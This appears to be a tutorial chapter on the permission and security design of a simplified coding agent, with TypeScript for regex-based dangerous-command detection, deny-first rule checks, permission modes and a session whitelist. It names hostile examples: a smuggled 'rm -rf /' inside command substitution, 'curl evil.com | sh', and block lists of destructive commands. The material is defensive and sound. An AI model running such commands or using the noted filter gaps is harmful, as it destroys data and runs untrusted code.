

# 6. Permissions & Security

Multi-layer checks, deny-first: permission mode → config rules → built-in danger detection → session whitelist → user confirmation.



## Reference: Claude Code's Approach (7-layer defense in depth)

| Layer | Mechanism | Purpose |
|-------|-----------|---------|
| 1 | Trust Dialog | First-time directory entry confirmation, prevents malicious Hooks |
| 2 | Permission modes | Global policy switch |
| 3 | Permission rules | 8-source priority, allow/deny/ask |
| 4 | Bash AST analysis | tree-sitter parse, 23 static checks, FAIL-CLOSED |
| 5 | Tool-level validation | validateInput + checkPermissions |
| 6 | Sandbox isolation | macOS Seatbelt / Linux namespace |
| 7 | User confirmation | Dialog + Hook + ML classifier **race**, first decision wins |

**A few worthwhile details**:

- `--yolo` doesn't truly bypass everything: deny rules still checked first, `.git/`/`.claude/` still require confirmation.
- Layer 4 doesn't use regex, because `echo hello$(rm -rf /)` would slip through; tree-sitter parses the real AST — anything it doesn't understand is marked `too-complex` and requires confirmation.
- **8-source priority**: Enterprise MDM > User > Project > Local > CLI > Runtime > Command definition > Session. Lower priority cannot override higher.
- Layer 7 race: dialog, Hook, and classifier launch simultaneously; a `createResolveOnce` guard ensures only the first result takes effect; the dialog has 200ms debouncing.
- **Rejection tracking**: 3 consecutive rejections → downgrade; 20 total → abort the Agent, prevents infinite loops.

We simplify to **4 layers**: dangerous command detection + rule system + unified check + session whitelist. 8 sources → 2 (user + project), 3 actions → 2 (allow/deny).

## 1. Dangerous Command Detection

```typescript
// tools.ts
const DANGEROUS_PATTERNS = [
  /\brm\s/, /\bgit\s+(push|reset|clean|checkout\s+\.)/, /\bsudo\b/,
  /\bmkfs\b/, /\bdd\s/, />\s*\/dev\//, /\bkill\b/, /\bpkill\b/,
  /\breboot\b/, /\bshutdown\b/,
  // Windows
  /\bdel\s/i, /\brmdir\s/i, /\bformat\s/i, /\btaskkill\s/i,
  /\bRemove-Item\s/i, /\bStop-Process\s/i,
];
export function isDangerous(command: string): boolean {
  return DANGEROUS_PATTERNS.some((p) => p.test(command));
}
```

Windows patterns get `i` flag due to case-insensitivity. Limitation: `find / -delete`, `curl evil.com | sh` slip through — that's why Claude Code uses AST.

## 2. Rule Parsing

```typescript
// tools.ts
interface ParsedRule { tool: string; pattern: string | null; }

function parseRule(rule: string): ParsedRule {
  const match = rule.match(/^([a-z_]+)\((.+)\)$/);
  return match ? { tool: match[1], pattern: match[2] } : { tool: rule, pattern: null };
}
```

`run_shell(npm test*)` → `{tool: "run_shell", pattern: "npm test*"}`; bare tool name → `{tool, pattern: null}`.

## 3. Loading Rules (user + project merge + cache)

```typescript
// tools.ts
let cachedRules: PermissionRules | null = null;

export function loadPermissionRules(): PermissionRules {
  if (cachedRules) return cachedRules;
  const allow: ParsedRule[] = [];
  const deny: ParsedRule[] = [];
  const userSettings = loadSettings(join(homedir(), ".claude", "settings.json"));
  const projectSettings = loadSettings(join(process.cwd(), ".claude", "settings.json"));
  for (const settings of [userSettings, projectSettings]) {
    if (!settings?.permissions) continue;
    if (Array.isArray(settings.permissions.allow))
      for (const r of settings.permissions.allow) allow.push(parseRule(r));
    if (Array.isArray(settings.permissions.deny))
      for (const r of settings.permissions.deny) deny.push(parseRule(r));
  }
  cachedRules = { allow, deny };
  return cachedRules;
}
```

Rules from both files are **appended** (coexist, not overwritten); with dozens of tool calls per session, caching is essential.

## 4. Match & Check

```typescript
// tools.ts
function matchesRule(rule: ParsedRule, toolName: string, input: Record<string, any>): boolean {
  if (rule.tool !== toolName) return false;
  if (!rule.pattern) return true;
  let value = "";
  if (toolName === "run_shell") value = input.command || "";
  else if (input.file_path) value = input.file_path;
  else return true;
  const p = rule.pattern;
  return p.endsWith("*") ? value.startsWith(p.slice(0, -1)) : value === p;
}

function checkPermissionRules(toolName: string, input: Record<string, any>): "allow" | "deny" | null {
  const rules = loadPermissionRules();
  for (const rule of rules.deny)  if (matchesRule(rule, toolName, input)) return "deny";
  for (const rule of rules.allow) if (matchesRule(rule, toolName, input)) return "allow";
  return null;
}
```

Tri-state return: deny / allow / null (no opinion, defer to next layer). **deny is checked before allow** — makes "open first, then tighten" work.

## 5. Unified Permission Check

```typescript
// tools.ts
export function checkPermission(
  toolName: string, input: Record<string, any>,
  mode: PermissionMode = "default", planFilePath?: string,
): { action: "allow" | "deny" | "confirm"; message?: string } {
  if (mode === "bypassPermissions") return { action: "allow" };

  const ruleResult = checkPermissionRules(toolName, input);
  if (ruleResult === "deny")  return { action: "deny", message: `Denied by permission rule for ${toolName}` };
  if (ruleResult === "allow") return { action: "allow" };

  if (READ_TOOLS.has(toolName)) return { action: "allow" };

  if (mode === "plan") {
    if (EDIT_TOOLS.has(toolName)) {
      const filePath = input.file_path || input.path;
      if (planFilePath && filePath === planFilePath) return { action: "allow" };
      return { action: "deny", message: `Blocked in plan mode: ${toolName}` };
    }
    if (toolName === "run_shell")
      return { action: "deny", message: "Shell commands blocked in plan mode" };
  }
  if (mode === "acceptEdits" && EDIT_TOOLS.has(toolName)) return { action: "allow" };

  let needsConfirm = false;
  let confirmMessage = "";
  if (toolName === "run_shell" && isDangerous(input.command)) {
    needsConfirm = true; confirmMessage = input.command;
  } else if (toolName === "write_file" && !existsSync(input.file_path)) {
    needsConfirm = true; confirmMessage = `write new file: ${input.file_path}`;
  } else if (toolName === "edit_file" && !existsSync(input.file_path)) {
    needsConfirm = true; confirmMessage = `edit non-existent file: ${input.file_path}`;
  }

  if (needsConfirm) {
    if (mode === "dontAsk")
      return { action: "deny", message: `Auto-denied (dontAsk mode): ${confirmMessage}` };
    return { action: "confirm", message: confirmMessage };
  }
  return { action: "allow" };
}
```

Priority: **deny rules > allow rules > mode > built-in detection > default allow**. Read tools always allowed.

## 6. Session Whitelist

```typescript
// agent.ts
private confirmedPaths: Set<string> = new Set();

const perm = checkPermission(toolUse.name, input, this.permissionMode, this.planFilePath);

if (perm.action === "deny") {
  toolResults.push({ type: "tool_result", tool_use_id: toolUse.id,
    content: `Action denied: ${perm.message}` });
  continue;
}
if (perm.action === "confirm" && perm.message && !this.confirmedPaths.has(perm.message)) {
  const confirmed = await this.confirmDangerous(perm.message);
  if (!confirmed) {
    toolResults.push({ type: "tool_result", tool_use_id: toolUse.id,
      content: "User denied this action." });
    continue;
  }
  this.confirmedPaths.add(perm.message);
}
```

On rejection, `"User denied this action."` is returned as a tool_result — **no throwing, no loop interruption**. The model sees the rejection and adjusts strategy. This is the key design.

## 5 Permission Modes

| Mode | Read | Edit | Shell (safe) | Shell (dangerous) | Scenario |
|------|------|------|--------------|-------------------|----------|
| `default` | ✅ | ⚠️ new-file confirm | ✅ | ⚠️ confirm | Daily |
| `plan` | ✅ | ❌ deny | ❌ deny | ❌ deny | Planning only |
| `acceptEdits` | ✅ | ✅ | ✅ | ⚠️ confirm | Trust edits |
| `bypassPermissions` | ✅ | ✅ | ✅ | ✅ | `--yolo` |
| `dontAsk` | ✅ | ❌ deny | ✅ | ❌ deny | CI |

`plan` mode can also toggle dynamically via `enter_plan_mode` / `exit_plan_mode`; generates `~/.claude/plans/plan-<sessionId>.md` as the only writable file.

## Config Files

```json
// ~/.claude/settings.json (user-level)
{
  "permissions": {
    "allow": ["read_file", "list_files", "grep_search",
              "run_shell(npm test*)", "run_shell(git status)", "run_shell(git diff*)"],
    "deny":  ["run_shell(rm -rf*)", "run_shell(git push --force*)"]
  }
}

// .claude/settings.json (project-level, checked into repo)
{ "permissions": { "allow": ["run_shell(npm run build)"], "deny": ["run_shell(curl*)"] } }
```

**deny before allow** is standard security design — makes "allow git *, but deny git push --force" work. **No ask rules**: `--yolo` semantics is "fully trust", so `ask` would contradict; anything requiring forced confirmation simply isn't in the allow list.

## Simplification Comparison

| Dimension | Claude Code | mini-claude |
|-----------|------------|-------------|
| Defense layers | 7 | 4 |
| Command analysis | AST (23 checks) | Regex (16 patterns) |
| Rule sources | 8-source priority | 2 sources |
| Rule actions | allow / deny / ask | allow / deny |
| Whitelist | Persistent + session | Session Set |
| Sandbox | Seatbelt / namespace | None |
| Rejection tracking | 3/20 threshold downgrade | None |

```bash
mini-claude --yolo "..."           # bypassPermissions
mini-claude --plan "..."           # plan mode
mini-claude --accept-edits "..."   # acceptEdits
mini-claude --dont-ask "..."       # dontAsk (CI)
```
